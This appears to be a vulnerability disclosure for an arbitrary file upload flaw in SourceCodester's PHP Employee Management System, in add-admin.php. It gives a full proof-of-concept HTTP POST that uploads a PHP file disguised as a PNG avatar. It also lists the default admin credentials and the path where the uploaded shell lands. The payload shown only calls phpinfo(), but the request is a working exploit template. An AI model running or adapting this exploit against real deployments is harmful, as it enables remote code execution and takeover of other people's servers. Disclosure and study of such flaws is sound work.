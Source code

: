 # RCE-1

## Vulnerability Description

Arbitrary file upload vulnerability in SourceCodester [Employee Management System using PHP and MySQL](https://www.sourcecodester.com/php/16999/employee-management-system.html) allows attackers to execute arbitrary code via the file upload to add-admin.php. It is an open source project from [https://www.sourcecodester.com/](https://www.sourcecodester.com/).

1. BUG_Author:  XuJianLin
2. vendors: [Employee Management System using PHP and MySQL](https://www.sourcecodester.com/php/16999/employee-management-system.html);
3. The program is built using the  PHP 7.3.4nts version;
4. Vulnerability location: /employee_akpoly/Admin/add-admin.php

# Vulnerability Verification

[+] Payload:

```
<?php phpinfo();?>
```

POC：

```js
POST http://192.168.10.108/employee_akpoly/Admin/add-admin.php HTTP/1.1
Host: 192.168.10.108
Content-Length: 701
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.10.108
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryx29tkKTC1YYpYwZs
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36 Edg/122.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.10.108/employee_akpoly/Admin/add-admin.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: ci_session=ees3tjel0fsobjmnvj6ghqu8l2dbl0q5; PHPSESSID=eus8iflugmq89jkbi16btkvoof
Connection: close

------WebKitFormBoundaryx29tkKTC1YYpYwZs
Content-Disposition: form-data; name="txtusername"

aaa
------WebKitFormBoundaryx29tkKTC1YYpYwZs
Content-Disposition: form-data; name="txtfullname"


------WebKitFormBoundaryx29tkKTC1YYpYwZs
Content-Disposition: form-data; name="txtpassword"


------WebKitFormBoundaryx29tkKTC1YYpYwZs
Content-Disposition: form-data; name="txtphone"


------WebKitFormBoundaryx29tkKTC1YYpYwZs
Content-Disposition: form-data; name="avatar"; filename="demo-bank-card-1.php"
Content-Type: image/png

<?php phpinfo();?>
------WebKitFormBoundaryx29tkKTC1YYpYwZs
Content-Disposition: form-data; name="btncreate"


------WebKitFormBoundaryx29tkKTC1YYpYwZs--

```

## How to verify

1.Build the vulnerability environment according to the steps provided by the source code author ;

2.login to the "Admin Panel” through the default account and password（username: admin Password: admin123）;

3.Shell Path:   **/employee_akpoly/uploadImage/Profile/demo-bank-card-1.php**

The vulnerability lies in the "User Management - Add User " function, you shuold inserts Payload when you update photo，as shown in the following figure：

​![image](assets/image-20240309153602-igp7h78.png)​

​![image](assets/image-20240309153647-ngyoo56.png)​

​![image](assets/image-20240309155540-y6ug2wq.png)​

​![image](assets/image-20240309154232-5ru7vex.png)​
